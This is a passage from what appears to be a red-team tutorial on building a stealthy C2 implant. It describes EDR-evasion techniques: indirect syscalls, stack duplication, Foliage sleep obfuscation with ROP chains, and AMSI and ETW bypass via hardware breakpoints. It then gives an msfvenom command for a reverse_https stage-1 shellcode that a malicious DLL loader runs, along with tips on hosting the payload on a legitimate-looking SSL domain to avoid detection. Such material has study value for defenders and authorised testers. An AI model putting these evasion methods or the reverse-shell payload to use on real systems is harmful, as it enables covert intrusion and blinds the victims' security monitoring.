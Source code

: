 - **Indirect Syscalls**: This technique leverages the execution of syscall commands within the ntdll.dll memory space, transitioning from direct to indirect syscalls. This shift generates a call stack that mirrors typical execution patterns, facilitating evasion of Endpoint Detection and Response (EDR) mechanisms that monitor syscall origins and destinations. Nonetheless, Event Tracing for Windows (ETW) might expose this tactic, which can be mitigated through the use of Hardware Breakpoints.
    
- **Stack Duplication**: To avoid detection during command and control (C2) communications, stack duplication is employed. This method is particularly useful during the payload's dormant periods, masking its presence from monitoring tools.
    
- **Foliage**: Employed as a sophisticated sleep obfuscation strategy, Foliage initiates a new thread that queues a Return Oriented Programming (ROP) chain via NtApcQueueThread. These ROP chains, small sequences of assembly instructions that manipulate the stack to perform intricate operations, are instrumental in encrypting the agent's memory and postponing its execution, thereby complicating detection efforts.
    
- **RtlCreateTimer**: This function schedules the ROP chain during sleep intervals, cleverly spacing out execution phases to further obscure the payload's activities from surveillance mechanisms.
    
- **AMSI and ETW Bypass**: The duo of the Antimalware Scan Interface (AMSI) and Event Tracing for Windows (ETW) presents a formidable challenge in simulating attack scenarios, with AMSI scrutinizing executable codes and ETW tracking procedural calls. To circumvent these security features, hardware breakpoints are strategically employed, allowing the initiation of a new process in debug mode, sidestepping the EDR or AMSI detections.
    

For a deeper dive into these obfuscation strategies and their practical applications in evading EDR systems, consider exploring the article "BlindSide: A New Technique for EDR Evasion with Hardware Breakpoints" available at [https://cymulate.com/blog/blindside-a-new-technique-for-edr-evasion-with-hardware-breakpoints](https://cymulate.com/blog/blindside-a-new-technique-for-edr-evasion-with-hardware-breakpoints), offering valuable insights and technical depth on the subject.

## Creating the Stage 1 Shellcode

To craft the initial stage of our payload, we need to generate shellcode that will be executed by the malicious DLL loader within the target system. Although such activities might be detectable by Endpoint Detection and Response (EDR) systems, they typically do not raise alarms. For improved operational security, hosting this payload on an HTTP server backed by a legitimate domain and SSL certification is recommended to lower the chances of detection.

The creation of the payload is facilitated using msfvenom with the following command:
```bash
msfvenom -p windows/x64/custom/reverse_https LHOST=192.168.8.205 LPORT=8443 EXITFUNC=thread -f raw -o stage1.bin
```
![figure 8: Create stage 1 payload with msfvenom](008-msfvenom-payload.png)  
figure 8: Create stage 1 payload with msfvenom

By specifying `windows/x64/custom/reverse_https`, we ensure that the connection to the Stage Listener is securely encrypted via TLS, enhancing the stealthiness of our operation.

- `LHOST` represents the IP address of the Stage Listener, which may or may not coincide with the C2 server's IP (in our scenario, it does).
- `LPORT` indicates the port number on which the Metasploit multi-handler will listen for incoming connections.
- `EXITFUNC=thread` is chosen based on how the loader executes the shellcode; the default setting is typically 'process'.
